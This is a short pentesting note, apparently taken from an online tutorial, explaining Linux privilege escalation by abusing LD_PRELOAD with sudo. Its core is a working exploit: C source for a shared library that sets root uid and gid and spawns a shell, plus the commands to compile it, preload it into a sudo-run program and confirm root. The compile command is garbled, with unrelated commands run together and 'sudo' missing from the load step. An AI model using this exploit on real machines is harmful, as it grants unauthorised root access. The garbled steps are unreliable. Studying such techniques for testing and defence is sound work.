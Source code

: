 LD_PRELOAD is an environment variable that lists shared libraries with functions that override the standard set, just as /etc/ld.so.preload does. These are implemented by the loader /lib/ld-linux.so

[[Linux Privilege Escalation]] via LD_PRELOAD consists of abusing the Linux preloading functionality by loading a binary that can be run by root, even though we're not, thus escalating our privilege to root.

To exploit such type of vulnerability we need to compromise victim’s machine at once then move to privilege escalation phase. Suppose you successfully login into victim’s machine through ssh now for post exploitation type **sudo -l**

Let’s generate a C-program file inside /tmp directory for example.

```c
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h> 

void _init() 
     { unsetenv("LD_PRELOAD"); 
       setgid(0); 
       setuid(0); 
       system("/bin/sh"); 
    }
```
Let's compile the c program as follow:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles ls -al shell.so sudo 
```
... and load the c program:
```bash
LD_PRELOAD=/tmp/shell.so find 
```
then check if we are be given the root privilege as follow:
```bash
id 
whoami
```
Source: https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/

